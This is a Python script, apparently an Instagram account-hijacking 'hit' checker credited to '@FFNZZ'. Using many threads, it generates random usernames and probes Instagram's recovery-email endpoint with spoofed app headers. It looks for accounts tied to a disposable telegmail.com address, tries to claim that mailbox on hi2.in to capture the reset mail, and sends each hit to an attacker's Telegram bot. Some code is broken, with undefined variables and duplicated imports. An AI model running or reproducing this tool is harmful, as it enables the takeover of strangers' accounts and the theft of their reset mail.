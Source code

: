 import random
import os
from user_agent import generate_user_agent
from random import randrange,choice
from random import randrange,choice
import requests; import base64
from rich.console import Console
from rich.live import Live
import requests
from user_agent import generate_user_agent
from asmix import Instagram
import ethan
import os
import requests
from user_agent import generate_user_agent
from time import time
from hashlib import md5
from random import choice
from concurrent.futures import ThreadPoolExecutor
from cfonts import render, say
from requests import post as pp
from user_agent import generate_user_agent as gg
from random import choice as cc
from random import randrange as rr
import random
import base64
import re
import ethan
import sys
from asmix import Instagram
import random
import string
import json
import requests
from threading import Thread
from rich.console import Console
Con = Console()
Ex = 0
b = random.randint(5,208)
bo = f'\x1b[38;5;{b}m'
ED='\x1b[38;5;208m'
BLUE = '\033[94m'
Z = '\033[1;31m' #احمر
S = '\033[1;33m' #اصفر
O = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
M = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
C = '\033[2;35m' #وردي
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح
B="\033[1;30m" # Black
R="\033[1;31m" # Red
G="\033[1;32m" # Green
Y="\033[1;33m" # Yellow
Bl="\033[1;34m" # Blue
P="\033[1;35m" # Purple
C="\033[1;36m" # Cyan
W="\033[1;37m" # White
Z = '\033[1;31m' #احمر
X = '\033[1;33m' #اصفر
Z1 = '\033[2;31m' #احمر ثاني
F = '\033[2;32m' #اخضر
A = '\033[2;34m'#ازرق
Y = '\033[1;34m' #ازرق فاتح
M = '\x1b[1;37m'#ابیض
U = '\x1b[1;37m'#ابیض
X = '\033[1;33m' #اصفر
Y = '\033[1;34m' #ازرق فاتح
M = '\x1b[1;37m'#ابیض
S = '\033[1;33m'
R = '\033[1;31m' #احمر
F = '\033[2;32m' #اخضر
C = "\033[1;97m" #ابيض
B = '\033[2;36m'#سمائي
Y = '\033[1;34m' #ازرق فاتح.

jjk=ethan.logo('FFNZZ')
print(jjk)
token=input(f'{X}enter token :')
print('')
ID=input(f'{R}enter id :')
import os
hit=0
badig=0
badmil=0
goodig=0
bad_user=0
def info(email):
	users = email.split("@")[0]
	rest=Instagram.rest(users)
	ff=f'''
\ NEW IG HITS / 
----------------------------------
[user] = @{users}
[email] = {email}
[rest] = {rest}
----------------------------------
by @FFNZZ
	'''
	requests.get(f"https://api.telegram.org/bot{token}/sendMessage?chat_id={ID}&text={ff}")
def rest(user):
  global bad_user
  global goodig
  global hit
  global badig
  global badmil
  try:
    email=user+'@telegmail.com'
    headers = {
    	                        'X-Pigeon-Session-Id': '50cc6861-7036-43b4-802e-fb4282799c60',
        'X-Pigeon-Rawclienttime': '1700251574.982',
        'X-IG-Connection-Speed': '-1kbps',
        'X-IG-Bandwidth-Speed-KBPS': '-1.000',
        'X-IG-Bandwidth-TotalBytes-B': '0',
        'X-IG-Bandwidth-TotalTime-MS': '0',
        'X-Bloks-Version-Id': '009f03b18280bb343b0862d663f31ac80c5fb30dfae9e273e43c63f13a9f31c0',
        'X-IG-Connection-Type': 'WIFI',
        'X-IG-Capabilities': '3brTvw==',
        'X-IG-App-ID': '567067343352427',
        'User-Agent': 'Instagram 100.0.0.17.129 Android (29/10; 420dpi; 1080x2129; samsung; SM-M205F; m20lte; exynos7904; en_GB; 161478664)',
        'Accept-Language': 'en-GB, en-US',
        'Cookie': 'mid=ZVfGvgABAAGoQqa7AY3mgoYBV1nP; csrftoken=9y3N5kLqzialQA7z96AMiyAKLMBWpqVj',
        'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'Accept-Encoding': 'gzip, deflate',
        'Host': 'i.instagram.com',
        'X-FB-HTTP-Engine': 'Liger',
        'Connection': 'keep-alive',
        'Content-Length': '356',
    }
  

        
        
        
        
    data = {
        f'signed_body': '0d067c2f86cac2c17d655631c9cec2402012fb0a329bcafb3b1f4c0bb56b1f1f.{"_csrftoken":"9y3N5kLqzialQA7z96AMiyAKLMBWpqVj","adid":"{Lol}","guid":"{Gio}","device_id":"{DvD}","query":"' + email + '"}',
        'ig_sig_key_version': '4',
    }



            	
    respon = requests.post('https://i.instagram.com/api/v1/accounts/send_recovery_flow_email/', headers=headers, data=data).text
    tt=(f''' 
========================================================
    {F}hits :{hit}   
    
    {R}badmail :{badmil}    
    
    {ED}user:@{user}  
    
    {bo} badig :{badig} 
    
           {bo} bad user : {bad_user}
    
           good ig :{goodig}
{M}========================================================
    ''')
    os.system('clear')
    print(tt)
   
         
        
    	
    if '"status":"ok"' in respon:
      		goodig+=1
      		name = email.split("@")[0]
      		domen = email.split("@")[1]
      		headers = {
    'User-Agent': "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Mobile Safari/537.36",
  'Accept': "application/json, text/plain, */*",  
  'authorization': "Basic bnVsbA==",  
  'origin': "https://hi2.in", 
  'accept-language': "en-US",
  'priority': "u=1, i,",  
}

	
	    		
      		response = requests.post("https://hi2.in/api/custom", data={'domain': "@" + domen,'prefix': name}, headers=headers)
      		data=response.text
      		if "error" in data:
      			badmil+=1
      		elif "hash" in data or "expiry" in data:
      			hit+=1
      			info(email)
      		
      		
    else:
    	badig+=1 
  
  except:
  	os.system('clear')
  	bad_user+=1
  	tt=(f''' 
========================================================
    {F}hits :{hit}   
    
    {R}badmail :{badmil}    
    
    {ED}user:@{user}  
    
    {bo} badig :{badig} 
    
    {bo} bad user : {bad_user}

               good ig :{goodig}    
{M}========================================================
    ''')
      	
  	print(tt)
 
def qcq():
  memo = random.randint(100, 300)
  O = f'\x1b[38;5;{memo}m'
  while True:
  	ur="".join(random.choice('po123456i0uytr9ewql8kjhgf7ds6amn5bvcxz')for x in range(5))
  	u="".join(random.choice('098poiuytrewqlkjhgfdsamnbvcxz76543211325476980')for x in range(4))
  	end=[ur,u]
  	user=random.choice(end)
  	rest(user)
def qqq():
    global Ex
    try:
        
        LsD = ''.join(random.choices(string.ascii_letters + string.digits, k=4))
       
        UseriD = str(random.randrange(900000,uid))
        
        variables = json.dumps({"id": UseriD, "render_surface": "PROFILE"})
        data = {"lsd": LsD, "variables": variables, "doc_id": "25618261841150840"}
        
        response = requests.post("https://www.instagram.com/api/graphql", headers={"X-FB-LSD": LsD}, data=data)
        
        
        user= response.json()['data']['user']['username']
        rest(user)
        
    
        return username
    except Exception as e:
    	return None



def ExUsers():
    for _ in range(1000):  
        qcq()

threads = []
for _ in range(100): 
    thread = Thread(target=ExUsers)
    thread.start()
    threads.append(thread)

for thread in threads:
    thread.join()
from threading import Thread
for _ in range(100):
  Thread(target=qqq).start()
